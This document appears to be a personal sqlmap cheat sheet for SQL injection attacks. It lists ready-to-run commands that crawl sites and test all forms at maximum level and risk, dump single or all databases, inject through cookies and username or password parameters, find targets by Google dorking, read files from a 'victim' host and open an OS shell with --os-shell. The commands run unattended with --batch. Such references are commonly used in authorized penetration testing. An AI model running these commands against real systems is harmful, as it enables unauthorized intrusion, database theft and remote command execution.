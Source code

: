 # Crawl the web page and test all forms (Requires a lot of user interaction)
``` sqlmap -u $url --crawl --forms --level 5 --risk 3 ```

# Enter sqlmap interactive shell

```sqlmap --shell```

# Test for write privileges and get a shell

``` sqlmap -u $url --os-shell```

# Enumerate databases

```sqlmap -u $url --dbs```

# Dump databases

```sqlmap -u $url --dump```

## Most often I use something like:

```sqlmap -u $url --dump --crawl --forms --level 5 --risk 3```

### And/Or

```sqlmap -u $url --dump --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump-all --crawl=2 --forms --level 5 --risk 3```
```sqlmap -u $url --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url --os-shell --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=username --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=password --dump --cookie=$cookie --level 5 --risk 3```
```sqlmap -u $url -p=search --dump --cookie=$cookie --level 5 --risk 3```

# Session Handling

```sqlmap -u $url --cookie=$cookie --level=5 --risk=3 --forms```
```sqlmap -u $url --cookie=$cookie --forms --level=5 --risk=3 --forms```

# SQLMap'ing with OSINT

```sqlmap -u $url -g site: --level=5 --risk=3 --forms```
```sqlmap -u $url -g url: --level=5 --risk=3 --forms```
```sqlmap -u $url -g page: --level=5 --risk=3 --forms```

# Reading files (requires read privileges)

```sqlmap --file-read $path_to_file_on_victim```

# Interaction(less) sqlmap

 - Append ```--batch``` to any of the previous commands
